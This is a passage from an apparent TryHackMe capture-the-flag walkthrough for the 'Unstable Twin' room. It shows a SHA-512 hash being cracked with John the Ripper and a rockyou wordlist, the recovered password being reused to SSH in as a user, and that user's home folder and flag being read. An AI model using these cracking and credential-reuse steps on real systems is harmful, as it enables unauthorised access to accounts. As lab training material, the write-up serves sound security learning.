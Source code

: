 ```text
--------------------------------------------------

Possible Hashs:
[+] SHA-512
[+] Whirlpool
--------------------------------------------------
```

It is indeed a hash, we can try to crack it with JohnTheRipper:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# john hashes.txt --format=Raw-SHA512 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>       (?)
1g 0:00:00:00 DONE (2021-05-17 22:22) 100.0g/s 204800p/s 204800c/s 204800C/s i<3ruby..sisters
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## User Flag

That was easy! Let's try this password with the users we dumped from the database, and try to log in via SSH:

```text
┌──(root💀kali)-[~/thm/unstable]
└─# ssh mary_ann@unstable.thm
The authenticity of host 'unstable.thm (10.10.247.188)' can't be established.
ECDSA key fingerprint is SHA256:WrxENvyCyn7qV22+7snQxO8tTSOptNI4dnZ764XnDhk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'unstable.thm,10.10.247.188' (ECDSA) to the list of known hosts.
mary_ann@unstable.thm's password: 
Last login: Sun Feb 14 09:56:18 2021 from 192.168.20.38
Hello Mary Ann
[mary_ann@UnstableTwin ~]$
```

It turned out to be the user mary_anns password. A look around her home folder finds the user flag:

```text
[mary_ann@UnstableTwin ~]$ ls -lsa
total 24
0 drwx------. 3 mary_ann mary_ann 138 Feb 13 10:18 .
0 drwxr-xr-x. 3 root     root      22 Feb 13 09:31 ..
4 -rw-------. 1 mary_ann mary_ann 115 Feb 13 10:24 .bash_history
4 -rw-r--r--. 1 mary_ann mary_ann  18 Jul 21  2020 .bash_logout
4 -rw-r--r--. 1 mary_ann mary_ann 141 Jul 21  2020 .bash_profile
4 -rw-r--r--. 1 mary_ann mary_ann 424 Feb 13 10:18 .bashrc
0 drwx------. 2 mary_ann mary_ann  44 Feb 13 09:51 .gnupg
4 -rw-r--r--. 1 mary_ann mary_ann 219 Feb 13 10:13 server_notes.txt
4 -rw-r--r--. 1 mary_ann mary_ann  20 Feb 13 10:15 user.flag

[mary_ann@UnstableTwin ~]$ cat user.flag 
THM{<HIDDEN>}
```
